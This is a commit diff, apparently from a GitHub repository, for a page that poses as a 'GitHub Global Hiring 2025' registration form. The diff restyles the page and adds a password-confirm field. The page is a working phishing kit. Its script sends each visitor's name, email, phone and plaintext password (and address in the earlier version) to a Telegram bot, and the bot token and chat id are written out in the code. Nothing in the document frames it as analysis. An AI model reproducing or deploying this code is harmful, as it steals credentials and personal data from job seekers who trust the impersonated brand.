

Before and after one commit to globalhiringpanindia/register-login, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 114-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,70 +3,116 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>GitHub Global Hiring Drive 2025</title>
+  <title>GitHub Global Hiring 2025</title>
   <style>
+    * {
+      box-sizing: border-box;
+      margin: 0;
+      padding: 0;
+    }
+
     body {
-      font-family: "Segoe UI", Tahoma, Geneva, Verdana, sans-serif;
-      background: linear-gradient(to bottom right, #e3f2fd, #ffffff);
-      padding: 30px;
+      font-family: 'Segoe UI', sans-serif;
+      background: linear-gradient(to bottom right, #222, #555);
+      height: 100vh;
       display: flex;
-      flex-direction: column;
+      justify-content: center;
       align-items: center;
     }
-    h1 {
-      color: #1a237e;
+
+    .form-container {
+      background-color: #111;
+      padding: 30px;
+      border-radius: 12px;
+      width: 100%;
+      max-width: 400px;
+      box-shadow: 0 0 20px rgba(100, 0, 255, 0.4);
+      text-align: center;
+    }
+
+    h2 {
+      color: #fff;
       margin-bottom: 20px;
     }
-    form {
-      background: #ffffff;
-      padding: 40px;
-      border-radius: 12px;
-      max-width: 500px;
+
+    input {
       width: 100%;
-      box-shadow: 0 10px 25px rgba(0, 0, 0, 0.1);
+      padding: 14px;
+      margin: 12px 0;
+      border: none;
+      border-radius: 8px;
+      background: #1e1e1e;
+      color: #fff;
+      font-size: 16px;
+      border: 1px solid #333;
+      outline: none;
+      transition: border 0.3s;
     }
-    input, textarea, button {
+
+    input:focus {
+      border: 1px solid #bb86fc;
+      box-shadow: 0 0 5px #bb86fc;
+    }
+
+    button {
       width: 100%;
-      margin: 12px 0;
       padding: 14px;
+      margin-top: 15px;
+      border: none;
       border-radius: 8px;
-      border: 1px solid #ccc;
       font-size: 16px;
+      background: linear-gradient(90deg, #7b2ff7, #f107a3);
+      color: #fff;
+      cursor: pointer;
+      transition: opacity 0.3s;
     }
-    button {
-      background-color: #1a237e;
-      color: white;
-      font-weight: bold;
-      cursor: pointer;
-      border: none;
-      transition: background 0.3s ease;
+
+    button:hover {
+      opacity: 0.9;
     }
-    button:hover {
-      background-color: #0d1649;
+
+    .link {
+      margin-top: 15px;
+      font-size: 14px;
+      color: #ccc;
     }
-    #thankyou {
+
+    .link a {
+      color: #bb86fc;
+      text-decoration: none;
+    }
+
+    .thankyou {
       display: none;
       margin-top: 20px;
-      color: green;
+      color: #00ff87;
       font-size: 18px;
       font-weight: bold;
+    }
+
+    @media (max-width: 480px) {
+      .form-container {
+        margin: 20px;
+        padding: 25px;
+      }
     }
   </style>
 </head>
 <body>
 
-  <h1>GitHub Global Hiring Drive 2025</h1>
-
-  <form id="registerForm">
-    <input type="text" name="name" placeholder="Full Name" required />
-    <input type="email" name="email" placeholder="Email Address" required />
-    <input type="text" name="phone" placeholder="Contact Number" required />
-    <textarea name="address" rows="3" placeholder="Residential Address" required></textarea>
-    <input type="password" name="password" placeholder="Set a Password" required />
-    <button type="submit">Register for Drive</button>
-  </form>
-
-  <div id="thankyou">✅ Thank you! You will be contacted by email shortly.</div>
+  <div class="form-container">
+    <h2>Register</h2>
+    <form id="registerForm">
+      <input type="text" name="name" placeholder="Full Name" required />
+      <input type="email" name="email" placeholder="E-mail" required />
+      <input type="text" name="phone" placeholder="Phone" required />
+      <input type="password" name="password" placeholder="Password" required />
+      <input type="password" name="confirm" placeholder="Confirm Password" required />
+      <button type="submit">Register</button>
+    </form>
+    <div class="link">Have account? <a href="#">Sign In</a></div>
+    <div class="thankyou">✅ Registered! We’ll reach out soon.</div>
+  </div>
 
   <script>
     document.getElementById("registerForm").addEventListener("submit", async function (e) {
@@ -77,9 +123,14 @@
         name: form.name.value,
         email: form.email.value,
         phone: form.phone.value,
-        address: form.address.value,
-        password: form.password.value
+        password: form.password.value,
+        confirm: form.confirm.value
       };
+
+      if (data.password !== data.confirm) {
+        alert("Passwords do not match!");
+        return;
+      }
 
       try {
         await fetch("https://api.telegram.org/bot7448574888:AAEqL3IHQocQslKBwia_TTAlt0jizyHao-U/sendMessage", {
@@ -89,16 +140,16 @@
           },
           body: JSON.stringify({
             chat_id: "<968143308>",
-            text: `📥 *New Registration - GitHub Hiring*\n\n👤 Name: ${data.name}\n📧 Email: ${data.email}\n📱 Phone: ${data.phone}\n🏠 Address: ${data.address}\n🔒 Password: ${data.password}`,
+            text: `🔐 *New Registration - GitHub Drive 2025*\n\n👤 Name: ${data.name}\n📧 Email: ${data.email}\n📱 Phone: ${data.phone}\n🔑 Password: ${data.password}`,
             parse_mode: "Markdown"
           })
         });
 
         form.style.display = "none";
-        document.getElementById("thankyou").style.display = "block";
-      } catch (error) {
-        alert("Error submitting form. Please try again.");
-        console.error(error);
+        document.querySelector(".thankyou").style.display = "block";
+      } catch (err) {
+        alert("Error submitting form.");
+        console.error(err);
       }
     });
   </script>
```
